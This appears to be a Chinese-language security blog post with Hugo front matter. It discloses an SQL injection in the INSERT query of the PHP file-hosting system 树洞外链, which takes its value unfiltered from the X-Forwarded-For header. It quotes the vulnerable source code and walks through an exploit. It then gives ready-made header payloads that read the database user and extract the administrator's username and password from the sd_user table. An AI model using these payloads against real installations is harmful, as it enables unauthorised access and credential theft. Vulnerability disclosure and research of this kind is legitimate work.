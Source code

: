 ```yaml
---
title: "树洞外链 insert 注入"
date: 2018-01-01T00:00:00+08:00
draft: false
author: "X1r0z"

tags: ['sqli', 'php']
categories: ['CMS']

hiddenFromHomePage: false
hiddenFromSearch: false
twemoji: false
lightgallery: true
ruby: true
fraction: true
fontawesome: true
linkToMarkdown: true
rssFullText: false

toc:
  enable: true
  auto: true
code:
  copy: true
  maxShownLines: 50
math:
  enable: false
share:
  enable: true
comment:
  enable: true
---
```



树洞外链是一款免费开源的 PHP 外链网盘系统.

<!--more-->

/includes/save.php 23-28 行

```
$ip=get_real_ip();
$dd=date('Y-m-d H:i:s');
$rand = md5(time() . mt_rand(0,1000));
$stmt = $con->prepare("INSERT INTO  `$sqlname`.`sd_file` (`ming` ,`key1` ,`uploadip` ,`uploadtime` ,`cishuo` ,`upuser` ,`policyid`)VALUES (?, '$rand', '$ip', '$dd', '0' , '$uploadUser', '$policyId');");
$stmt->bind_param('s', $ming);
$stmt->execute();
```

调用了 get_real_ip() 之后没有过滤直接 insert

/includes/function.php 36-52 行

```
function get_real_ip(){
$ip=false;
if(!empty($_SERVER["HTTP_CLIENT_IP"])){
$ip = $_SERVER["HTTP_CLIENT_IP"];
}
if (!empty($_SERVER['HTTP_X_FORWARDED_FOR'])) {
$ips = explode (", ", $_SERVER['HTTP_X_FORWARDED_FOR']);
if ($ip) { array_unshift($ips, $ip); $ip = FALSE; }
for ($i = 0; $i < count($ips); $i++) {
if (!eregi ("^(10|172\.16|192\.168)\.", $ips[$i])) {
$ip = $ips[$i];
break;
}
}
}
return ($ip ? $ip : $_SERVER['REMOTE_ADDR']);
}
```

X-Forwarded-For

构造 payload

```
X-Forwarded-For: 1.1.1.1',user(),'0',uid,uid); #
```

注册用户

![](http://exp10it-1252109039.cossh.myqcloud.com/2018/01/01/1514782481.jpg)

个人资料 - 查看 uid

![](http://exp10it-1252109039.cossh.myqcloud.com/2018/01/01/1514782681.jpg)

访问 /includes/save.php

别忘了带上 ming 参数 (post)

添加 X-Forwarded-For 更改uid

![](http://exp10it-1252109039.cossh.myqcloud.com/2018/01/01/1514782764.jpg)

查看我的文件

![](http://exp10it-1252109039.cossh.myqcloud.com/2018/01/01/1514782795.jpg)

`root@localhost`

exp

```
username: X-Forwarded-For: 1.1.1.1',(select username from sd_user where id=1),'0',uid,uid); #
password: X-Forwarded-For: 1.1.1.1',(select pwd from sd_user where id=1),'0',uid,uid); #
```